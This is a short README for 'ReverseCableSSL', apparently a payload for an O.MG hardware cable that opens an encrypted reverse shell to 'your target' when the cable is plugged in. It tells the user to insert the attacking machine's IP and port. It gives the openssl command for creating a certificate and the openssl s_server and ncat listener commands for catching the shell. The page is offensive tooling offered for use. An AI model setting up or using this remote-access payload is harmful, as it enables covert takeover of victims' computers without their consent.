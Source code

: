 **Title: ReverseCableSSL**

<p>Author: 0iphor13<br>
Version: 1.0<br>
Requirements: OMG Firmware v.2.5 or higher</p>

**What is RemoteDeskCable?**
#
<p>ReverseCableSSL gets you remote access to your target in seconds.<br>
Unlike ReverseCable, ReverseCableSSL offers encrypted traffic via OpenSSL.</p>


**Instruction:**
<p>!!!Insert the IP of your attacking machine & PORT into the payload!!!<br>
1. Create key.pem & cert.pem like so: openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes<br>
	> It will ask for information about the certificate - Insert whatever you want.<br>
	![alt text](https://github.com/0iphor13/omg-payloads/blob/master/payloads/library/remote_access/ReverseCableSSL/CreateCert.png)
2. For catching the shell you need to start a listener, which supports encrypted traffic.<br>
I recommend openssl itself or ncat - Example syntax for both:<br>
	> openssl s_server -quiet -key key.pem -cert cert.pem -port [Port Number] <br>
	> ncat --listen -p [Port Number] --ssl --ssl-cert cert.pem --ssl-key key.pem</p>
	![alt text](https://github.com/0iphor13/omg-payloads/blob/master/payloads/library/remote_access/ReverseCableSSL/StartScreen.jpg)
3. Plug in Cable.
